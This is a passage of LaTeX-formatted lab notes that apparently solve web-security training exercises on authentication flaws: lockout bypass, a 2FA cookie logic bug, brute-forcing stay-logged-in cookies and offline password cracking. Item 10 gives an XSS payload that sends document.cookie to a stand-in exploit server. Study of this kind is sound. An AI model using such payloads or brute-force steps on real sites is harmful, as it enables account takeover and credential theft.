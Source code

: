 \documentclass[
  letterpaper,
]{article}
\newcommand{\passthrough}[1]{#1}
\begin{document}
\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
It blocks only existing accounts, so try to brute the same list of passwords until one of accounts from the list is not blocked.
To brute password use grep with errors to find a request without error
\end{Verbatim}

\subsubsection{8. 2FA broken logic}\label{8-2fa-broken-logic}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
Observe there is verify=wiener in cookie while sending 2FA code
Change it to our victim's nickname and simply brute 2FA code
\end{Verbatim}

\subsubsection{9. Brute-forcing a stay-logged-in
cookie}\label{9-brute-forcing-a-stay-logged-in-cookie}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
Observe stay logged in function. Check cookie and observe that it is base64 encoded version of USERNAME:(md5)PASSWORD
Create a list of md5 hashed passwords and brute cookies
\end{Verbatim}

\subsubsection{10. Offline password
cracking}\label{10-offline-password-cracking}

\begin{quote}
Steal cookie in comment section via XSS:
\passthrough{\lstinline!<script>document.write('<img src="https://exploit-server?c='+document.cookie+'" />');</script>!}
Crack MD5 hash via john the ripper or web services
\end{quote}

\subsubsection{11. Password reset poisoning via
middleware}\label{11-password-reset-poisoning-via-middleware}
\end{document}
